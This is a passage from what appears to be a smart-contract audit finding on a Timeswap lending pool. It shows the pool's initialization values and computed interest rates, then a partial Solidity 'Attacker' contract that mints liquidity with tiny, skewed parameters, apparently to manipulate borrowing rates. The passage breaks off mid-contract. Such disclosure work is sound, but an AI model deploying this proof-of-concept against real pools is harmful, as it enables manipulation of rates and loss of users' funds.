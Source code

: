 ```solidity
        
    }
}

```

Here are the initialization values:
```solidity
uint112 xIncrease = 5_000 ether;
uint112 yIncrease = (APR*xIncrease)/(SEC_PER_YEAR*100);
uint112 zIncrease = (5*xIncrease)/3; //Static 167% CDP
```

With this configuration, I've calculated the interest rate to borrow on this pool using the functions defined here: <https://timeswap.gitbook.io/timeswap/deep-dive/borrowing>
to  be:

```
yMax: 4.7533146923118e-06
Min Interest Rate: 0.009374999999999765
Max Interest Rate: 0.14999999999999625
zMax: 1666.6666666666667

```

Around 1% to 15%.

Then, the attacker comes along (see line containing `let atakcontrak` and after). The attacker deploys the following contract:
```solidity
pragma solidity =0.8.4;

import "hardhat/console.sol";
import {ITimeswapMintCallback} from "./interfaces/callback/ITimeswapMintCallback.sol";
import {IPair} from "./interfaces/IPair.sol";
import {IERC20} from '@openzeppelin/contracts/token/ERC20/IERC20.sol';
interface TestTokenAtt is IERC20{
    function mmint(uint256 amount) external;
}

contract Attacker is ITimeswapMintCallback {

    uint112 constant SEC_PER_YEAR = 31556926;
    TestTokenAtt internal jtok;
    TestTokenAtt internal usdc;

constructor(address _jtok, address _usdc){
    jtok = TestTokenAtt(_jtok);
    jtok.mmint(10_000 ether);
    usdc = TestTokenAtt(_usdc);
    usdc.mmint(10_000 ether);
}

function timeswapMint(uint maturity, uint112 APR, address pairAddress) public{
    uint256 maturity = maturity;
    console.log("Maturity: ", maturity);
    address liquidityTo = address(this);
    address dueTo = address(this);
    uint112 xIncrease = 3;
    uint112 yIncrease = 1000000000000000;
    uint112 zIncrease = 5; //Static 167% CDP
    IPair(pairAddress).mint(maturity, liquidityTo, dueTo, xIncrease, yIncrease, zIncrease, "");
}


function timeswapMintCallback(
```